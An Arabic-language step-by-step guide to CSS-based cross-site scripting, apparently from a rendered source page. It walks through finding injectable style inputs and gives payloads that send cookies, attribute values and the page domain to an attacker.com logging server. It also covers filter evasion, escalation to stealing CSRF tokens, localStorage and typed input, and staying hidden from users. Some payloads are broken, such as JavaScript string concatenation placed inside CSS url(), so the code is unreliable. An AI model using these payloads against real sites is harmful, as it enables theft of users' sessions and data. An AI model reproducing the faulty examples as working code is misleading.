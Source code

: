 
## الخطوات العملية للحقن المستخدمة في XSS القائم على CSS
1. **إعداد البيئة**:
   - استخدم متصفحًا مع أداة وكيل (مثل **Burp Suite** أو **OWASP ZAP**) لمراقبة الطلبات الصادرة الناتجة عن حقن CSS.
   - أعد خادمًا خارجيًا (مثل خادم Python بسيط أو خدمة مثل `ngrok`) لتسجيل البيانات المرسلة عبر طلبات URL.
   - افتح أدوات المطورين في المتصفح (F12) لمراقبة وحدة التحكم (Console)، الشبكة (Network)، وتغييرات DOM.
   - حدد المتصفح المستهدف (مثل Internet Explorer لـ `expression()` أو متصفحات حديثة لتسريب البيانات).

2. **تحديد نقاط الإدخال العرضة**:
   - ابحث عن نقاط إدخال تتيح إدخال أو عرض CSS، مثل:
     - حقول نصية تُعرض كنمط (مثل وصف الملف الشخصي أو التعليقات).
     - خصائص `style` في عناصر HTML (مثل `<div style="...">`).
     - تحميل ملفات CSS أو إدخال أنماط عبر API.
     - معلمات URL التي تُعرض كنمط أو تُحقن في CSS.
   - افحص استجابات الموقع (عبر Burp Suite أو عرض المصدر) لتحديد ما إذا كان يُسمح بخصائص CSS دون تنظيف.
   - تحقق من دعم المتصفح لخصائص أو تعبيرات CSS (مثل `expression()` في IE أو `content` في المتصفحات الحديثة).

3. **إدخال الحقن**:
   - أدخل شيفرة CSS تحتوي على خصائص أو تعبيرات ضارة في نقطة الإدخال العرضة.
   - صمم الحقنة لتنفيذ JavaScript أو تسريب بيانات، مثل:
     - `<div style="background-image:url('http://attacker.com/log?d='+document.cookie)">`
     - `<style>input[value="secret"] { background-image:url('http://attacker.com/log?value=secret'); }</style>`
   - جرب الحقن في سياقات مختلفة:
     - حقل نصي: أدخل `<div style="background-image:url('http://attacker.com/log')">` في وصف.
     - خاصية style: `<div style="expression(alert('XSS'))">` في Internet Explorer.
     - معلمة URL: `https://example.com/?style=body{background-image:url('http://attacker.com/log')}`
     - ملف CSS: أنشئ ملفًا بمحتوى `body { background-image:url('http://attacker.com/log'); }` وقم بتحميله.

4. **مراقبة الاستجابات**:
   - تحقق من تنفيذ الحقنة عبر:
     - **أدوات المطورين**: راقب وحدة التحكم (Console) للأخطاء أو التنبيهات (في حالة `expression()`).
     - **خادم خارجي**: تحقق من سجلات الخادم لتأكيد استلام البيانات (مثل قيم السمات أو ملفات تعريف الارتباط).
     - **تغييرات DOM**: تحقق من تغييرات التنسيق أو التفاعلات (مثل تغيير الخلفية).
   - **نجاح (True)**: البيانات تُرسل إلى الخادم أو يتم تنفيذ JavaScript.
   - **فشل (False)**: لا تُرسل بيانات أو لا يتم التنفيذ بسبب فلاتر أو CSP.
   - سجل النتائج لتحديد الحقن الناجحة.

5. **تجربة أنواع حقن مختلفة**:
   - إذا فشلت الحقنة، جرب أنواعًا أخرى:
     - استخدام خصائص CSS مختلفة: `background-image`، `content`، `list-style-image`.
     - استهداف سمات مختلفة: `value`، `data-*`، `id`، أو نصوص العناصر.
     - تجاوز الفلاتر: جرب صيغ بديلة مثل `background: url(...)` أو تعتيم الشيفرة.
   - اختبر نقاط إدخال متعددة (مثل حقول نصية أخرى، تحميل ملفات CSS، أو معلمات URL).
   - جرب حقنًا مع تقنيات تسريب بيانات متقدمة (مثل CSS selectors لاستخراج أحرف معينة).

6. **تأكيد السياق وتصعيد الاستغلال (اختياري)**:
   - استخدم حقن تكشف سياق التنفيذ (مثل `<div style="background-image:url('http://attacker.com/log?d='+document.domain)">`).
   - إذا نجحت الحقن، جرب هجمات متقدمة مثل:
     - استخراج بيانات حساسة (مثل رموز CSRF أو قيم `localStorage`).
     - تنفيذ إجراءات المستخدم (مثل محاكاة النقرات عبر تغييرات DOM).
     - تتبع التفاعلات (مثل تسجيل النصوص المُدخلة في حقول).
   - حافظ على التخفي بتجنب التغييرات البصرية الواضحة.

---